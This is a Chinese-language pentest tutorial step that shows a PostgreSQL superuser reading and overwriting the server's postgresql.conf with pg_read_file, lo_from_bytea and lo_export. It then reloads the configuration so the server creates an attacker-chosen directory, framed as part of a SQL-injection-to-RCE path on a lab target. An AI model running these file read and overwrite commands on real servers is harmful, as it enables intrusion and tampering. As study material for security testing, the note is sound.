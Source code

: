 ## 通过 log_directory 创建文件夹

方法来自于 https://www.yulegeyu.com/2020/11/16/Postgresql-Superuser-SQL%E6%B3%A8%E5%85%A5-RCE%E4%B9%8B%E6%97%85/ 这篇文章的场景

**利用条件**
- 目标已经配置了 `logging_collector = on`

**描述**

配置文件中的 log_directory 配置的目录不存在时，pgsql 启动会失败，但是如果日志服务已启动,在修改 log_directory 配置后再 reload_conf 目录会被创建

**原理**

logging_collector 配置是否开启日志，只能在服务开启时配置，reloadconf 无法修改,log_directory 用来配置 log 日志文件存储到哪个目录，如果 log_directory 配置到一个不存在的目录,pgsql 会创建目录。

**测试**

拿靶机中的 postgresql 为例，先查看配置文件的路径
```bash
select setting from pg_settings where name='config_file'
```

![](../../img/postgresql-pentest/39.png)

查看内容
```bash
select pg_read_file('/var/lib/postgresql/data/postgresql.conf');
```

将配置文件中的 log_directory 配置修改
```
log_destination = 'csvlog'
log_directory = '/tmp/f0x'
log_filename = 'postgresql-%Y-%m-%d_%H%M%S.log'
log_rotation_size = 100MB
log_rotation_age = 1d
log_min_messages = INFO
logging_collector = on
```

转为 base64 格式
```bash
# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base64.txt
```

```sql
-- 将修改后的配置文件加载到largeobject中
select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));

-- 通过lo_export覆盖配置文件
select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');
SELECT lo_unlink(10001);

-- 重新加载配置文件
select pg_reload_conf();
```
